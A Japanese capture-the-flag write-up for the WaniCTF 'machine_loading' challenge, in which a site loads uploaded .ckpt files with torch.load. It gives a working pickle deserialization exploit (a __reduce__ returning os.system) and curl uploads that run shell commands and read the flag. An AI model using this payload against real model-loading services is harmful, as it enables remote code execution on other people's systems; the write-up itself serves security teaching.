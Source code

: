 # machine_loading:Misc:303pts
機械学習モデルを試すことができるサイトを作っています。  
まだ未完成ですが、モデルをロードする部分は先に作成しました。  
モデルの形式は、みんなよく使っている.ckptにします！  
I'm creating a website where users can test machine learning models.  
It's not completed yet, but I've already created the part that loads a model.  
The format of the model will be .ckpt, which we all use a lot!  
[https://machine-mis.wanictf.org](https://machine-mis.wanictf.org/)  

[mis-machine-loading.zip](mis-machine-loading.zip)  

# Solution
URLとソースが与えられる(Web問か？)。  
ひとまずアクセスすると、機械学習モデルをアップロードできるようだ。  
![site.png](site/site.png)  
ソースを見ると主要個所は以下の通りであった。  
```python
import torch
~~~
@app.route("/upload", methods=["POST"])
def upload():
    file = request.files["file"]
    if not file:
        return "No file uploaded.", 422
    if file.content_length > 1024 * 1024:  # 1MB
        return "File too large. Max size is 1MB.", 400

    suffix = pathlib.Path(file.filename).suffix
    if suffix == ".ckpt":
        try:
            modelload(file)

            if os.path.exists("output_dir/output.txt"):
                with open("output_dir/output.txt", "r") as f:
                    msg = f.read()
                os.remove("output_dir/output.txt")

            return f"File loaded successfully: {msg}"
        except Exception as e:
            return "ERROR: " + str(e), 400
    else:
        return "Invalid file extension. Only .ckpt allowed.", 400


def modelload(file):
    with BytesIO(file.read()) as f:
        try:
            torch.load(f)
            return
        except Exception as e:
            raise e
~~~
```
送信されたckptファイルを`torch.load`で読み取っている。  
そして謎だが`output_dir/output.txt`を返してくれる。  
ここで、ckptについて調べると、どうやら内部でpickleが利用されているようだ。  
よくあるRCEを行って、`output_dir/output.txt`経由で結果を取得する問題だと予想できる。  
以下のid_ckpt.pyを用いて、攻撃に用いるckptを作成する。  
```python
import os
import torch

class Exploit:
    def __reduce__(self):
        cmd = ("id > output_dir/output.txt")
        return os.system, (cmd,)

model = Exploit()

torch.save(model, "id.ckpt")
```
実行してできたid.ckptをアップロードする。  
```bash
$ python id_ckpt.py
$ curl -X POST https://machine-mis.wanictf.org/upload -F file=@id.ckpt
File loaded successfully: uid=1000(ctf_user) gid=1000(ctf_user) groups=1000(ctf_user)
```
任意のコードが実行できた。  
あとは同様にコマンド部分を変えてフラグを見つければよい。  
```bash
$ python ls_ckpt.py
$ curl -X POST https://machine-mis.wanictf.org/upload -F file=@ls.ckpt
File loaded successfully: chall.py
flag.txt
output_dir
templates
$ python cat_flag.txt_ckpt.py
$ curl -X POST https://machine-mis.wanictf.org/upload -F file=@cat_flag.txt.ckpt
File loaded successfully: FLAG{Use_0ther_extens10n_such_as_safetensors}
```
flag.txtがあり、中にflagが書かれていた。  

## FLAG{Use_0ther_extens10n_such_as_safetensors}